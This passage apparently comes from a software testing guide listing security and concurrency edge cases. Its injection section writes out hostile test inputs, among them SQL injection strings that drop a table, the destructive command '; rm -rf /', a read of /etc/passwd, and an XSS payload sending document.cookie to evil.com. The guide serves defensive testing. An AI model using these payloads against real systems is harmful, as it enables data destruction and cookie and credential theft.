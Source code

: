 #### Injection Attacks
- **SQL injection**: `' OR '1'='1`, `'; DROP TABLE users;--`
- **XSS (Cross-Site Scripting)**: `<script>alert('XSS')</script>`
- **Command injection**: `; rm -rf /`, `$(malicious_command)`
- **LDAP injection**: `*)(uid=*))(|(uid=*`
- **XML injection**: `<!--`, `<![CDATA[`

**Examples**:
- Username field: `admin' OR '1'='1'--`
- Comment field: `<script>fetch('evil.com', {body: document.cookie})</script>`
- Search query: `test; cat /etc/passwd`

#### Authentication/Authorization
- **Bypassing authentication**: Direct URL access, session manipulation
- **Privilege escalation**: Regular user accessing admin functions
- **Broken authentication**: Weak passwords, no rate limiting
- **Session hijacking**: Stolen tokens, replay attacks

**Examples**:
- Accessing `/admin` without login
- Changing user ID in request to access other user's data
- No lockout after failed login attempts
- JWT token with `admin: true` added by client

#### Data Exposure
- **Sensitive data leakage**: Passwords in logs, PII in error messages
- **Insecure storage**: Plain text passwords, unencrypted data
- **Insecure transmission**: HTTP instead of HTTPS
- **Information disclosure**: Stack traces, detailed error messages

**Examples**:
- Error message: `Login failed for user admin with password abc123`
- Password stored as plain text in database
- API returns full user object including password hash
- Debug logs containing credit card numbers

---

### 3. Concurrency

Edge cases involving simultaneous operations and race conditions.

#### Race Conditions
- **Read-modify-write**: Two threads updating same value
- **Check-then-act**: Condition changes between check and action
- **Double-spend**: Same resource used twice
- **Lost updates**: Concurrent writes overwrite each other

**Examples**:
- Two users booking last available seat simultaneously
- Balance check passes, but account depleted before withdrawal
- Inventory decremented twice for same purchase
- Two processes creating user with same email
